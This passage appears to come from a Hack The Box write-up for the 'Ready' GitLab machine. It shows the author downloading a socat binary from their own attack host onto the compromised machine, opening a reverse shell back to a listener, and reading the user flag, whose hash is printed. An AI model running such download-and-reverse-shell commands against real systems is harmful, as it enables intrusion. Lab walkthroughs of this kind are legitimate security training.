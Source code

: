 Download *socat* from our kali on victim machine
```
git@gitlab:/tmp# wget http://10.10.14.162:9191/socat -O socat              
wget http://10.10.14.162:9191/socat -O socat
--2021-01-24 09:06:28--  http://10.10.14.162:9191/socat
Connecting to 10.10.14.162:9191... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat'

socat               100%[===================>] 366.38K   301KB/s    in 1.2s    

2021-01-24 09:06:29 (301 KB/s) - 'socat' saved [375176/375176]
```

And make it executable
```
git@gitlab:/tmp# chmod +x socat
```

2. Run command
```
git@gitlab:/tmp# /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.162:5757
```

3. Dont't forget about listener on kali:
```
┌──(root💀kali)-[/home/kali/HTB/Ready]
└─# socat file:`tty`,raw,echo=0 tcp-listen:5757                 
git@gitlab:/tmp$ 
```

Done!

Now we can comfortably check directories...

And we find **user.txt**
```
┌──(root💀kali)-[/home/kali/HTB/Ready]
└─# socat file:`tty`,raw,echo=0 tcp-listen:5757                 
git@gitlab:/tmp$ cd /
git@gitlab:/$ ls
RELEASE  bin   cmd  etc   lib    media  opt     proc  root_pass  sbin  sys  usr                                                                                            
assets   boot  dev  home  lib64  mnt    output  root  run        srv   tmp  var                                                                                            
git@gitlab:/$ cd /home/dude/                                                                                                                                               
git@gitlab:/home/dude$ ls                                                                                                                                                  
user.txt                                                                                                                                                                   
git@gitlab:/home/dude$ cat user.txt                                                                                                                                        
e1e30b052b6ec0670698805d745e7682 
```
